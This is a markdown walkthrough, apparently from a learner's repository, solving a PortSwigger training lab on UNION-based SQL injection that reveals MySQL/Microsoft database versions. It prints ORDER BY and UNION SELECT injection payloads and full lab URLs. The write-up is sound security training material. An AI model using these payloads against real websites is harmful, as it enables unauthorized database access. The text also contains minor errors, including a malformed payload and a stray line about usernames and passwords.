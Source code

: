 ## LAB 6: SQL injection attack, querying the database type and version on MySQL and Microsoft
[SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. You can use a `UNION` attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Solution
![LAB SCREENSHOT](./assets/lab6.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. Display the MySQL and Microsoft database type and version

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--`

The above paramters do not work not sure why but if we use `#` instead of `--` to comment the queries will work.

`' ORDER BY 1#`
`' ORDER BY 2#`
`' ORDER BY 3#`

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac551f201f30b459c037526600c3002b.web-security-academy.net/filter?category=Gifts' ORDER BY 3#`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` - Only the second column is of type strings/varchar so, we need to concat the two username and password into a single column.


FULL URL: `https://ac551f201f30b459c037526600c3002b.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,'abc'#`

### 3. Display the MySQL and Microsoft database type and version
We can now use `UNION` attack to return the database version. From the Burpsuite SQL Inject Cheat Sheet we know `SELECT @@version` returns the database version for MySQL and Microsfot databases.

`' UNION SELECT NULL, @@version#`

FULL URL: `https://ac551f201f30b459c037526600c3002b.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,@@version#`

![SOLVED LAB SCREENSHOT](./assets/lab6.2.PNG)


<!-- EOF -->